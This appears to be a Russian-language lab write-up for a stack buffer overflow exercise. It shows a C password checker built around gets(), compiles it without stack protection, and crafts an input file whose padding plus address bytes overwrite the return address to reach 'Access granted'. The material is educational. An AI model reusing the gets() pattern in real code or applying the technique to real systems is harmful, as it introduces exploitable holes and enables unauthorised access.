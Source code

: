 # Задание на функции

**Цель**: Перезаписать адрес возврата на адрес ветки условия проверки корректности ввода пароля, которая выполняется при условии совпадения паролей.

**Код программы**:
```c
// pass.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int IsPassOk(void);

int main(void)
{
    int PwStatus;
    puts("Enter password:");
    PwStatus = IsPassOk();
    if (PwStatus == 0) {
        printf("Bad password!\n");
        exit(1);
    } else {
        printf("Access granted!\n"); // Строка для которой нужно выяснить адрес
    }
    return 0;
}
int IsPassOk(void)
{
    char Pass[12];
    gets(Pass);
    return 0 == strcmp(Pass, "test");
}
```

**Решение**:
1. Компиляция:
- `gcc -fno-stack-protector -no-pie pass.c -o pass -g` 
2. Анализ программы:
- disassemble, $rbp и $rsp функции main 
![1](img/1.png)
- disassemble, $rbp и $rsp функции IsPassOk 
![2](img/2.png)
- Проверка расположения переменных и адреса возврата в кадре функций
![3](img/3.png)
- Замена адреса возврата
![4](img/4.png)
3. Подготовка файла с паролем:
- `echo -n "qwertyuiopasdfghjklz" > input.txt`
- `echo -ne '\xd2' >> input.txt`
- `echo -ne '\x11\x40' >> input.txt`
4. Запуск программы:
- ./pass < input.txt
![5](img/5.png)
